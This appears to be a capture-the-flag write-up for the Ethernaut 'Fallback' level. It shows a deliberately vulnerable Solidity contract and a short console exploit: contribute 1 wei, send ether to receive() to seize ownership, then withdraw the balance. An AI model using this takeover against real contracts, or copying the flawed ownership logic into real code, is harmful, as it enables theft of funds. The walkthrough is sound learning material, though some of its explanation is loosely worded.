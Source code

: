 # Challenge 1

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
Challenge
---
 > You will beat this level if

    1. you claim ownership of the contract
    2. you reduce its balance to 0 Things that might help

    How to send ether when interacting with an ABI
    How to send ether outside of the ABI
    Converting to and from wei/ether units (see help() command)
    Fallback methods
    Level author(s): Alejandro Santander

Solution : Challenge 1
---
1. if we look at the contract we see contribute function which has restriction and we can only send  less than `0.001 ether`. so we will send only `1 wei`.

2. next thing will we will send directly to contract we take look at the receive function msg.value > 0 && msg.sender > 0 then we will cliam the ownership of the contract let's we will force fully send ether via this command

```js
await contract.sendTransaction({value:toWei("0.02")}) 
```

this is the solution will get you the ownership of the contract

You can check the owner using
```js
await contract.owner()
```

you will see your account address. Now Last thing.

3. withdraw all the balance from the contract 
```js
await contract.withdraw()
```
you will get balance of the contract into your account and check the submit instance and you will pass the Challenge.